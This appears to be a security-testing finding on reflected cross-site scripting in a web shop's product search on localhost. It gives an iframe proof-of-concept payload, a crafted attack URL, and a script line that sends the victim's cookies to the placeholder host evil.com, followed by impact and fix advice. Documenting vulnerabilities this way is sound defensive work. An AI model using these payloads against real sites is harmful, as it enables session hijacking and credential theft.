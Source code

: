 
**Category:**  #a3_injection
## Finding  
The **product search functionality** is vulnerable to **reflected Cross-Site Scripting (XSS)**. User-supplied input is not sanitized or encoded before being reflected back into the HTML response. This allows attackers to inject arbitrary JavaScript code.  

### Proof of Concept (PoC) Payload  
```html
<iframe src="javascript:alert('XSS')">
```

When this payload is submitted through the search field, it is executed by the browser, showing that JavaScript injection is possible.  
![Pasted image 20250907154833](Pasted%20image%2020250907154833.png)
## Impact  
- **Account compromise**: An attacker could steal session cookies or JWT tokens.  
- **Phishing**: The attacker could craft malicious pop-ups or redirects to steal user credentials.  
- **Privilege escalation**: If an admin user is targeted, the attacker may gain administrative access.  
- **Defacement**: Injected scripts could modify the appearance of the application.  
**Severity:** **High**
## Attack Scenarios  
1. An attacker embeds a malicious payload into a search URL and tricks a victim into clicking it.  
   Example:  
   ``http://localhost:3000/#/search?q=<iframe src=javascript:alert('lol')>``  

2. More advanced payloads could exfiltrate cookies or data:  
   ``<script>fetch('https://evil.com/steal?c='+document.cookie)</script>``  

3. With the lack of a strict Content-Security-Policy (CSP), the attacker can load external scripts, leading to **full takeover of the victim’s session**.  

## Recommendation  
- **Input Validation**: Reject unexpected characters and apply a whitelist approach to input fields.  
- **Output Encoding**: Encode all user input before rendering in the DOM (e.g., `&lt;` for `<`).  
- **Content Security Policy (CSP)**: Apply a strict CSP that disallows inline scripts and restricts sources.  
- **Testing**: Regularly test with automated tools (e.g., OWASP ZAP, Burp Suite) and manual payloads.  

